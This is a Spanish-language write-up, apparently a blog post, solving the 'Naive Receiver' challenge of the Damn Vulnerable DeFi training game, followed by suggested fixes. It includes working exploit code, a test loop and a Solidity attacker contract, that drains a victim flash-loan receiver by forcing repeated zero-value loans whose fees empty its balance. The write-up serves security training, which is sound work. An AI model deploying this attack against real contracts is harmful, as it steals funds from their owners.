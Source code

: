 ```yaml
---
title: Solucion al challenge \#2 Naive Receiver
date: 2022-01-3
excerpt: Hay una lending pool que ofrece flash loans de ethers, tiene 1000 ethers. Tambien vez que un usuario deployeo un contrato con un balance de 10 ETH que es capaz de interactuar con el lending pool y realizar flash loans. Tu objetivo es disminuir/drenar el balance de este contrato. Hacerlo en una sola transaccion es un plus.
---
```


Hay una lending pool que ofrece flash loans de ethers, tiene 1000 ethers.

Tambien vez que un usuario deployeo un contrato con un balance de 10 ETH que es capaz de interactuar con el lending pool y realizar flash loans.

Tu objetivo es disminuir/drenar el balance de este contrato. Hacerlo en una sola transaccion es un plus.

## Objetivo

El objetivo es hacer que el contrato del usuario que usa el pool quede en 0. El truco es bastante sencillo, basta con pedir un prestamo de 0 ethers y que lo reciba el contrato del usuario [FlashLoanReceiver.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/naive-receiver/FlashLoanReceiver.sol)

## Exploit

Bastante sencillo, por cada prestamo que se pide 0 ethers, pero el contrato devuelve 0 + 1ether que es el fee.
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */   
        for(let i = 0; i < 10; i+=1) {
            await this.pool.flashLoan(this.receiver.address, ethers.utils.parseEther('0'));
        }
    });
```

Un plus es realizar el drenado en una sola transaccion, en el caso del for se realizan 10 transacciones, para esto solo basta armar contrato que use el pool pidiendo prestamos de 0 en nombre del contrato del usuario

*ExploiteNaiveReceiver.sol*
```js
pragma solidity ^0.8.0;

interface INaiveLenderPool {
  function flashLoan(address borrower, uint256 borrowAmount) external;
}

contract ExploitNaiveReceiver {
  function attack(address pool, address receiverVictim, uint256 n) external {
    for(uint256 i = 0; i < n; i++) {
      INaiveLenderPool(pool).flashLoan(receiverVictim, 0);
    }
  }
}```

```js
    it('Exploit', async function () {
      const ExploitNaiveReceiver = await ethers.getContractFactory('ExploitNaiveReceiver', attacker);
      const exploitNaiveReceiver = await ExploitNaiveReceiver.deploy();
      await exploitNaiveReceiver.attack(this.pool.address, this.receiver.address, "10");
    })
```

## Soluciones

Una posible solucion seria que el contrato del usuario _FlashLoanReceiver.sol_ cheque que esta ganado ether en la operacion, y en caso de perdida que haga un revert. Aunque es posible que el usuario lo haya diseñado asi por un motivo y no le importe perder ether, en ese caso otra alternativa seria que haga un cheque para saber que el que origino la transaccion sea el usuario que creo el contrato (usando tx.origin). Aunque esto tambien es considerado peligroso y vulnerable a un phising.

Una ultima altenativa seria mejorar un poco el contrato _FlashLoanReceiver.sol_, y usar una funcion que reciba ether del usuario y que solo ese usuario pueda realizar esos prestamos (tambien haciendo uso del tx.origin que no es considerado como una practica tan segura)
